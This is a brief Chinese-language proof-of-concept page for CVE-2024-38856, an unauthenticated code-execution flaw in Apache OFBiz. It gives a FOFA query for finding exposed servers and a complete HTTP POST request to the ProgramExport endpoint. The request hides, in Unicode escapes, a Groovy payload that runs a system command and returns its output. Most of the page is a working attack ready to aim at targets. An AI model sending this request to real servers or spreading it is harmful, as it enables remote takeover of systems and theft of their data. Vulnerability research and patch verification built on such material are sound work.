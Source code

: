 # Apache-OFBiz授权不当致代码执行漏洞(CVE-2024-38856)

2024年8月，互联网上披露了Apache OFBiz 授权不当致代码执行漏洞(CVE-2024-38856)，该漏洞允许未经身份验证的远程攻击者通过特定的URL绕过安全检测机制执行恶意代码。攻击者可能利用该漏洞来执行恶意操作，包括但不限于获取敏感信息、修改数据或执行系统命令，最终可导致服务器失陷。Apache OFBiz <= 18.12.14

## fofa

```yaml
app="Apache_OFBiz"
```

## poc

```java
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/x-www-form-urlencoded
 
groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u0069\u0064\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```

![效果图](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408062344609.png)

